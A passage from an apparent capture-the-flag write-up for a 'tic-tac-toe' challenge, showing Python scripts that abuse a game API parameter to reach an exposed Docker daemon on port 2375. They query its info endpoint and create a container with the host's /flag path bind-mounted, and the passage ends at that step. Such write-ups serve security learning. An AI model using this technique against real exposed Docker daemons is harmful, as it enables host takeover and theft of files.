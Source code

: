 How is this information useful you ask? Well, let's say that exposing your docker daemon brings deamons.
The kind that lets us interact with the host machine and create, start, stop, execute any docker command we like.

## 2. Task Analysis

The challenge overview was long I know, but now we know what we have to do. Since we think that dockerd
is exposed through the network, we first should make an HTTP request to `http://localhost:2375/info` to verify our assumption.

```python
import requests

url = 'http://localhost:80'
# url = 'https://tic-tac-toe-c8ae075ea3c02b7e.ctf.pearlctf.in'
payload = {
    'api': {"8000/<game_action>": "2375/info"},
    'state': "_________",
    'action': 'get',
}
info = requests.post(url, json=payload).json()
print(info)
```

> I'll leave the burden of understand my script to you. You have all the pieces you need.

![system-info](/images/2025-03-09-22-53-14.png)

Nice! We confirmed our assumption. We can move to the next step, which is retrieving the flag.

---

To get the flag, the simplest we can do is create a container using the already existing image.
Mout the host filesystem into this newly created container, and just cat-ing out the flag.txt file.

## 3. Solution

All the steps mentioned above are below on this script:

### `solve.py`

```python
#!/usr/bin/env python3

import requests

url = 'http://localhost:80'
# url = 'https://tic-tac-toe-c8ae075ea3c02b7e.ctf.pearlctf.in'


# step 0: create a new container that the flag.txt is mounted on
payload = {
    'state': "_________",
    'api': {"8000/<game_action>": "2375/containers/create"},
    'action': 'post',
    "Image": "b3gul4/tic-tac-toe",
    "HostConfig": {
        "Binds": ["/flag:/flag:ro"]
    }
}
container_info = requests.post(url, json=payload).json()
container_id = container_info['body']['Id']
print(container_id)

```